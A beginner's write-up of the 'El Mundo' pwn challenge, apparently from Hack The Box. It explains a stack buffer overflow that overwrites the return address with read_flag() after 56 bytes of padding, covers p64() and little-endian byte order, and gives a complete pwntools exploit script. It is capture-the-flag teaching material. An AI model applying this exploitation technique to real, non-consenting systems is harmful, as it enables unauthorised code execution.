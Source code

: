 # Introduction
**El Mundo** is a pwn challenge that contains a buffer-overflow problem where the address of a called function is changed.

The challenge is introductory as it guides you on how to solve it.
# Enumeration

after running the `el_mundo` binary, we observe the following:

![](assets/El%20Mundo.png)

![](assets/El%20Mundo-1.png)

After which we get an input prompt. We are to cause a buffer overflow and deliberately insert the address of the `read_flag()` function into the `Return Address` location.

We notice in the first image that we need to cover 56 bytes before we reach the `Return Address` location.
# Exploitation

Reading the provided `solver.py` function, we see the following:

![](assets/El%20Mundo-2.png)

The highlighted line shows the payload, which includes a filler part (the 'A'\*nbytes) and the return address part afterwards. The code uses a function that I am unfamiliar with, which is `p64()`.

`p64()` converts the value that is passed to it into 8-bytes in little endian format to match how the data appears in memory.

The output of the `p64()` in our example is is:
`p64(0x4016b7)` -> `b7 16 40 00 00 00 00 00`

> Little-endian is a way to store a multi-byte number so the **least significant byte (LSB)** comes first in memory (lowest address).

Note: we are using `p64()` since this is a 64-bit binary. if it were 32, we would use `p32()`.

## Exploitation Script

Since I am still learning, I like to write my own scripts even if they would appear very similar to the provided solver scripts.

Here's mine:
```python
#!/usr/bin/env python3

from pwn import *

def getConnection():
    try:
        host,port = sys.argv[1].split(':')
        return remote(host,port)
    except IndexError:
        print("Usage: exploit.py <ip:port>")
        exit(1)

connection = getConnection()

offset = 56
flag_address = p64(0x4016b7)

payload = b'A'*offset + flag_address

connection.sendlineafter(b'>',payload)

flag = connection.recvline_contains(b'HTB').decode('ascii')

print("Flag:",flag)  
```

# Learning Outcomes

Learned the use of the function `p64()`, what little-endian is, and how to use buffer overflow to manipulate the return address and call a function of interest.

# Next Steps

Solving more buffer overflow questions that have less handholding to drill in the ideas presented here.